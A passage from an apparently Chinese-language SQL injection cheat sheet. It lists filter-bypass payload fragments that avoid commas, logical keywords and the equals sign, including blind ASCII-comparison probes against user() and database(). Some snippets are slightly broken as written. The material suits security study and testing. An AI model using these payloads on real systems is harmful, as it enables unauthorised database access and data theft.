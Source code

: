 

### 2.10 逗号绕过

`substr`

```sql
select(substr(database() from 1 for 1);
```

`mid`

```sql
select mid(database() from 1 for 1);
```

`join`

```sql
union select * from 1,2
union select * from (select 1)a join (select 2)b
```

`like`

```sql
select user() like '%r%';
```

`offset`

```sql
limit 1 offset 0
```



### 2.11 or and xor not绕过

`&&`等价于and

`||`等价于or

`!`等价于not

`|`等价于xor



### 2.12 ASCII字符对比绕过

```sql
select * from users where id=1 and ascii(substring(user(),1,1))=114; # char(114)='r'
```



### 2.13 等号绕过

```sql
ascii(substring(user(),1,1))<115; # > <
select substring(user(),1,1)like 'r%'; #like rlike
select user() regexp '^r'; # regexp
```
